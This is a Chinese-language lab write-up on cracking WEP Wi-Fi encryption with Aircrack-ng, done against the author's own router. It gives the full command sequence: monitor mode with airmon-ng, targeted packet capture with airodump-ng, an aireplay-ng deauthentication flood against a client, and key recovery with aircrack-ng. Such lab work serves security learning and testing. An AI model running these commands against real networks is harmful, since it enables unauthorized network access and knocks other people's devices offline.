









# Wireless - WEP Cracking by Aircrack-ng

Created by : Mr Dk.

2018 / 12 / 04 16:48

Nanjing, Jiangsu, China

---

## Concept

有线等效加密 (_Wired Equivalent Privacy, WEP_) 又称无线加密协议 (_Wireless Encryption Protocol, WEP_) 是用于保护无线网络信息安全的一种体制，是 IEEE 802.11 标准的一部分：

- 使用 _RC4_ 加密技术保证 **机密性**
- 使用 _CRC-32_ 校验技术保证 **完整性**

## Theory

### Encryption

使用一个 24-bit 的初始化向量 IV

- 将 IV 与密码一起作为 RC4 的密钥
- 将数据与其 CRC-32 校验作为明文
- 将明文用密钥加密得到密文
- 将 IV 与密文一起发送



### Decryption

得到 IV 与密文

- 将提取出的 IV 与密码一起作为 RC4 的密钥
- 用密钥将密文解密为明文
- 从明文中提取出数据和 CRC-32 校验

将数据进行 CRC-32 校验，并与提取出的校验和进行比较。如果校验和相同，则接收端接收到了原始数据。



## Tools

_Aircrack-ng_ on _Kali Linux x64_。Aircrack-ng 是一个分析 IEEE 802.11 标准网络的安全软件，主要功能包括：

- 网络侦测
- 数据包嗅探
- WEP、WPA、WPA2 破解

## Procedure

### 将路由器配置为 WEP 加密模式



为了简单起见，将密钥设置为 `12345`。

### 插入无线网卡并查看是否被 OS 识别

```console
$ ifconfig
```



可以看到插入的 USB 网卡已被识别，并被命名为 `wlan0`。

### 将网卡设置为监控模式

```console
$ airmon-ng start wlan0
```



### 查看网卡是否已进入监控模式

```console
$ ifconfig
```



可以看到 `wlan0` 网卡进入监控模式后被命名为 `wlan0mon`。

### 使用网卡监控空间内的无线网络通信状态

```console
$ airodump-ng wlan0mon
```



从所有的设备中选择要破解的目标。

### 抓取攻击目标的数据包

```console
$ airodump-ng -w test -c 11 --bssid 00:6B:8E:5E:7E:E8 wlan0mon
```

参数信息：

- `-w` 表示数据包写入的文件路径
- `-c` 表示监听的信道 (channel)
- `--bssid` 表示监听设备的 MAC 地址
- 最后一个参数为网卡名



可以看到选定的目标 AP：`Mr.Drivingduck` 的加密方式为 WEP，有两个客户端连接到了该 AP 上 - 分别是我的 `iPhone X` & `Surface Pro`。

### 获取大量数据包

获取的数据包越多，获取到的 IV 值就越多，破解的概率就越大。可以对连接到该 AP 的客户端使用 **洪泛解除认证攻击**，迫使客户端发送重新连接的数据包，从而获得更多数据包。

```console
$ aireplay-ng -0 10 -a 00:6B:8E:5E:7E:E8 -c B8:C1:11:02:B7:05 wlan0mon
```

参数信息：

- `-0` 表示洪泛攻击，之后表示洪泛攻击的次数
- `-a` 表示被攻击 AP 的 MAC 地址
- `-c` 表示被攻击客户端设备的 MAC 地址
- 最后一个参数为网卡名

为了方便，我没有使用洪泛攻击的方式获取大量数据包。我使用的方法是，用 `Surface Pro` 开启百度云盘下载一个很大的文件，从而发出大量数据包。

### 利用抓取到的数据包进行破解

```console
$ aircrack-ng -a 1 test-01.cap
```

参数信息：

- `-a` 表示破解模式，`1` 表示 WEP 破解
- 最后的参数为抓取到的数据包文件



总共利用了 27563 个数据包，破解出了 5 位的 WEP 密钥。如果使用 13 位密钥，可能需要抓取更多数据包。

## Summary

亲身体验了一次当黑客的感觉。WEP 确实是一个很弱的加密方式，在嗅探到的所有设备里，除了我自己人为设定为 WEP 加密的 AP，其余设备都使用 WPA2 加密。但是这款软件可以将网卡设置为监控模式，还可以发起解除认证洪泛攻击，我认为可以用来测试 _kismet_ 的攻击报警模块，待实验验证。
